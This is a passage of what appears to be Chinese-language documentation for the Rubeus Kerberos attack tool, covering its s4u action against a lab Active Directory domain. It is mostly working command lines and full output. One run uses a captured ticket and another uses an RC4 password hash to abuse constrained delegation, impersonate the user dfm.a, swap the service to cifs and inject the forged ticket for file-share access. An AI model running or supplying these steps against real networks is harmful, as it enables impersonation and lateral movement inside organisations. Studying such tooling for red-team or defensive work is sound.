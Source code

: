 ```
      doIE+jCCBPagAwIBBaE...(snip)...

c:Temptickets&gt;Rubeus.exe s4u /ticket:C:TempTicketspatsy.kirbi /impersonateuser:dfm.a /msdsspn:ldap/primary.testlab.local /altservice:cifs /ptt

   ______        _
  (_____       | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ | ___ | | | |/___)
  | |   | |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.0.0

[*] Action: S4U

[*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
[*] Building S4U2self request for: 'TESTLAB.LOCALpatsy'
[*]   Impersonating user 'dfm.a' to target SPN 'ldap/primary.testlab.local'
[*]   Final ticket will be for the alternate service 'cifs'
[*] Sending S4U2self request
[*] Connecting to 192.168.52.100:88
[*] Sent 1437 bytes
[*] Received 1574 bytes
[+] S4U2self success!
[*] Building S4U2proxy request for service: 'ldap/primary.testlab.local'
[*] Sending S4U2proxy request
[*] Connecting to 192.168.52.100:88
[*] Sent 2618 bytes
[*] Received 1798 bytes
[+] S4U2proxy success!
[*] Substituting alternative service name 'cifs'
[*] base64(ticket.kirbi):

      doIGujCCBragAwIBBaEDAgE...(snip)...

[*] Action: Import Ticket
[+] Ticket successfully imported!
```

或者，如果不提供 **/ticket** 参数，**/user:X** 和 **/rc4:X** 或 **/aes256:X** 哈希（**/domain:X** 可选 ）可用于请求设置了限制委派的账户(**/user** 指定)的TGT，类似于 **asktgt** 操作，然后被用于 s4u 数据请求。

```
C:Temptickets&gt;dir \primary.testlab.localC$
The user name or password is incorrect.

C:Temptickets&gt;Rubeus.exe s4u /user:patsy /domain:testlab.local /rc4:602f5c34346bc946f9ac2c0922cd9ef6 /impersonateuser:dfm.a /msdsspn:LDAP/primary.testlab.local /altservice:cifs /ptt

   ______        _
  (_____       | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ | ___ | | | |/___)
  | |   | |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.0.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 602f5c34346bc946f9ac2c0922cd9ef6
[*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
[*] Building AS-REQ (w/ preauth) for: 'testlab.localpatsy'
```